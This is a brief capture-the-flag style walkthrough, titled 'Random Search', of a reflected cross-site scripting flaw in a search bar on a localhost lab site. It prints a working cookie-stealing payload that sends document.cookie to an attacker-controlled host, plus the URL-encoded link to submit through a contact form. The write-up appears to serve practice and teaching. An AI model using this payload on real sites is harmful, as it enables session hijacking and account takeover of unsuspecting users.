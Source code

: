 # Random Search

We can see that the search bar has an XSS inside. We run our cookie stealer and then search for this string: 
```html
<img src=x onerror="this.src='http://<YourIP>:8888/?'+document.cookie; this.removeAttribute('onerror');">```

You can see that your cookie is correctly stolen, 

Then send in contact this URL :

http://localhost:8000/index.php?search=%3Cimg+src%3Dx+onerror%3D%22this.src%3D%27http%3A%2F%2F%3CYourIP%3E%3A8888%2F%3F%27%2Bdocument.cookie%3B+this.removeAttribute%28%27onerror%27%29%3B%22%3E